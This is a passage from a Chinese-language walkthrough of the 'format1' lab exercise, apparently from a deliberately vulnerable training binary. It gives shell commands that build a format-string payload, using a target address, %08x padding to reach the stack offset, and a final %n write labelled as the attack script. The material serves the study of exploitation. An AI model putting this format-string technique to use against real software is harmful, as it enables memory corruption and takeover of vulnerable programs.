 <img src=".\format1-analysis-17.png" style="zoom:67%;" />

现在*somewhere恰好与填入target地址的位置重合。

```shell
$ ./format1 $(python -c 'print "\x38\x96\x04\x08" + "AAAAA" + "%08x."*122 + "[%08x]"')
```

<img src=".\format1-analysis-18.png" style="zoom:67%;" />

最后得到攻击脚本如下：

```shell
$ ./format1 $(python -c 'print "\x38\x96\x04\x08" + "AAAAA" + "%08x."*122 + "[%08n]"')
```

<img src=".\format1-result-2.png" style="zoom:67%;" />
